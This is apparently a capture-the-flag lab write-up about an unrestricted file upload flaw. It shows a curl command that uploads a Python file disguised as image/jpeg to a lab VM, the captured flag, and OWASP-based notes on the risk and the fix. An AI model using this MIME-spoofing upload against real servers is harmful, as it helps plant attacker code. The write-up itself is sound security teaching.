

# File Upload


On the page ```http://[VM_IP]/?page=upload```
Let's try to transfer an empty python script instead of a picture using curl.
```
curl -F "Upload=send" -F "uploaded=@empty.py;type=image/jpeg" http://192.168.56.106/index.php\?page\=upload
```

So, we get the flag
```
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```


## Explanation
Attack type: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
> Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked.
> Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

## How to fix it
> The application should perform filtering and content checking on any files which are uploaded to the server.
> Files should be thoroughly scanned and validated before being made available to other users.
